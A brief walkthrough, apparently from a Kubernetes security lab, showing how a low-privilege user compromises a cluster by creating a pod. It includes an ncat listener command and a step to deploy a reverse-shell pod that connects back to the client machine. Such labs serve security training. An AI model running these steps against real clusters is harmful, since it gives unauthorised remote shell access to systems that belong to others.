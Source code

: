 ## SSH to Create Pod - Easy

## Compromising the cluster

1. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
2. `kubectl get po` will work and give you a list of pods in the default namespace
3. `kubectl run` will work, but there's a problem, unlike the easy version there's no way to read logs or exec into a pod.
4. Start a new shell and exec into the client machine, then start an ncat listener on the client machine `ncat -l -p 8989`
5. run the pod `ncat-reverse-shell-pod.yml` on the target host, remembering to modify the target IP address to that of the client machine.
6. Profit!